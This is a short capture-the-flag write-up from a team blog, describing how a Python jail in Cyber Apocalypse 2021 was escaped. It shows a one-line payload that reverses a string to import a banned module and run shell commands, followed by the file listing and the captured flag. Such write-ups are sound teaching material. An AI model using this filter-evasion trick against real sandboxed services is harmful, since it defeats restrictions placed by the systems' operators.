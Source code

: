 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2021 | Input as a service Writeup
desc: Check out our writeup for Input as a service for Cyber Apocalypse 2021 capture the flag competition.
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2021
parent: cyber_apocalypse_2021
category: misc
challenge: Input as a service
tags: "misc, ava, python, jail, escape"
date: 2021-04-24T00:00:00+00:00
last_modified_at: 2021-04-24T00:00:00+00:00
---
```




> Solved by : ava

* We are given a py-jail 
* https://programmer.help/blogs/python-sandbox-escape.html 
* I used this website as reference, `os` and such imports are banned, so we used string manipulation
* we just reverse the string `os` to `so` and import it and then do `ls` command to * * see the `flag.txt` and then just `cat` the flag
* the code to do is given below

```bash

__import__('so'[::-1]).system('ls')


flag.txt
input_as_a_service.py


__import__('so'[::-1]).system('cat flag.txt')

CHTB{4li3n5_us3_pyth0n2.X?!}
```

